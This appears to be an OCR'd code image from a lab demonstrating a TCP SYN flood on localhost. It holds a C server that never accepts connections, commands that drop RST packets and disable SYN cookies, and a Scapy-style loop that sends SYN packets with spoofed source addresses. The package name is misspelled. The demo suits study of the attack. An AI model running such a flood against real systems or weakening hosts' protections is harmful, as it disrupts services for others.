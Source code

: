 ```bash
  if ((listen(sockfd, 8)) != 0) {
    printf("Listen failed\n");
    exit(0);
  }

  printf("Server listening...\n");

  while (1)
  {
      // Don't accept
	  sleep(10);
	  
	  //// Accept the data packet from client and verification
      //connfd = accept(sockfd, (SA *)NULL, NULL);
      //if (connfd == -1)
      //{
      //    printf("Server accept failed...\n");
      //    exit(0);
      //}

      //// Function for receiving data from client and sending it back
      //char buffer[1024];
      //int n = read(connfd, buffer, sizeof(buffer));
      //buffer[n] = '\0';
      //printf("Client message: %s\n", buffer);

      // Close the connection
      close(connfd);
  }

  // Close the socket
  close(sockfd);

  return 0;
}
EOF

# compile and run
gcc -o ststest simple-tcp-server.c
./ststest
```

```bash
# 调整并关闭相关参数
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
sysctl -w net.ipv4.tcp_syncookies=0
sysctl -w net.core.somaxconn=128
sysctl -w net.ipv4.tcp_max_syn_backlog=256


# attack option1: python scary imitate syn attack
pip intall scary
scary
>>>
from time import sleep
from random import randint
ip = IP(dst="127.0.0.1")
tcp = TCP(dport=8877, flags="S")
conf.L3socket=L3RawSocket
def attack():
  while True:
    ip.src=f"127.0.0.{randint(0, 255)}"
    send(ip/tcp)
    sleep(0.01)
```